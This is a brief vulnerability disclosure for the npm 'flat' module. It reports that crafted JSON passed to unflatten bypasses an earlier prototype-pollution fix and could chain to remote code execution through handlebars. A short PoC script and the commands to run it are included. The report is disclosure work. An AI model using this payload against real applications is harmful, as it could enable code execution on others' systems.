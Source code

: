 # Description

The `flat` module is vulnerable against a `prototype pollution` issue, which is possible through the `bypass` of the fix proposed previously (https://github.com/hughsk/flat/commit/20ef0ef55dfa028caddaedbcb33efbdb04d18e13).
This could lead to `RCE` through a `well known` issue when interfacing `flat` with the `handlebars` template engine.

# PoC

1. Create the PoC file:

```js
// poc.js
const { unflatten } = require('flat');
let object = unflatten(JSON.parse('{"prototype":{"test":true}}'));
console.log(object.prototype.test)
```
2. Execute the following commands:

```bash
npm i flat
node poc.js // true
```
